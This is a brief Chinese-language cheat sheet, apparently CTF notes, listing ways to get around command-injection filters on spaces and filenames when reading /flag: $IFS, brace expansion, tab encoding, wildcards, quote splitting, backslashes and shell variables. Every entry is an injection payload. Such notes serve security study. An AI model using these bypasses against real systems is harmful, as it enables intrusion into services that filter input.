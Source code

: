 除`;`外，其他符号都可以使用

## 空格过滤绕过

### $IFS 代替空格（内部字段分隔符）

- `cat /flag` -> `cat${IFS}/flag`

- `cat /flag` -> `cat$IFS/flag`

- `cat /flag` -> `cat$IFS$9/flag`

### 大括号

- `cat /flag` -> `{cat,/flag}`

- `cat /flag` -> `cat$'\x20'/flag`

### 重定向字符

- `cat</flag`

### %09（Tab）

- `cat /flag` -> `cat%09/flag`

## 文件名过滤绕过

### 通配符

- `cat /flag` -> `cat /fla?`

- `cat /flag` -> `cat /fla*`

- `cat /flag` -> `cat /fla[g]`

### 单双引号绕过

- `cat /flag` -> `cat /f""lag`

- `cat /flag` -> `cat /f''lag`

### 反斜杠绕过

反斜杠把特殊字符去掉功能性，单纯表示为字符串

- `cat /flag` -> `cat /fla\g`

### 特殊变量

$1 到$9、$@、$\*

- `cat /flag` -> `cat /f$1la$9g`

- `cat /flag` -> `cat /f$*\lag`
